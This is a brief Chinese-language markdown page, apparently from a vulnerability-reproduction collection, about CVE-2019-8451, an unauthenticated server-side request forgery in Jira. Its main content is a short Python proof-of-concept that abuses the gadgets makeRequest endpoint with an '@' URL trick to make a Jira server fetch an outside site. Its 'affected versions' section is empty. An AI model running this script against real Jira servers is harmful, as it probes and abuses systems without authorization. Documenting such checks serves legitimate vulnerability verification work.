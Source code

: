 # （CVE-2019-8451）Jira未授权SSRF漏洞验证

## 一、漏洞简介

（CVE-2019-8451）Jira未授权SSRF漏洞验证

## 二、影响范围

## 三、复现过程

![image](images/img.png)

https://github.com/ianxtianxt/CVE-2019-8451

```python
#coding:utf-8
import requests

host = 'http://xx.xx.xx.xx:8080'
header = {
                        'X-Atlassian-Token': 'no-check',
                        'Connection': 'close'
                }

url = host + '/plugins/servlet/gadgets/makeRequest?url='+host+'@www.baidu.com/'
html = requests.get(url = url,headers = header)
print html.text
```
